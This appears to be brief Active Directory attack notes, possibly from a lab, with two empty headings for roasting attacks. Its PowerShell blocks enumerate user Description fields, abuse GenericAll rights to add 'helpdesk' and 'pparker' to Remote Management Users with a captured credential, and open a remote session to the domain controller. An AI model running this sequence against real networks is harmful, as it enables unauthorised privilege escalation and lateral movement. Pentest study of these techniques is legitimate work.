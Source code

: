 ### Users Description
```powershell
Get-DomainUser | select samaccountname, Description
```

### ASREProasting


### KERBroasting

### GenericAll Abuse
```powershell
Add-ADGroupMember -Identity "Remote Management Users" -Members helpdesk, pparker -Credential $ldapsvc -Server $dc
###
(Get-DomainGroup  -Identity "Remote Management Users" -Domain $domain -Server $dc -Credential $helpdesk).member
###
Add-DomainGroupMember -Identity  "Remote Management Users"  -Members 'helpdesk','pparker' -Credential $ldapsvc
```

### Powershell Remoting!!!
```powershell
$helpdeskSess = New-PSSession -ComputerName $dc -Credential $helpdesk
###
Enter-PSSession -Session $helpdeskSess
```
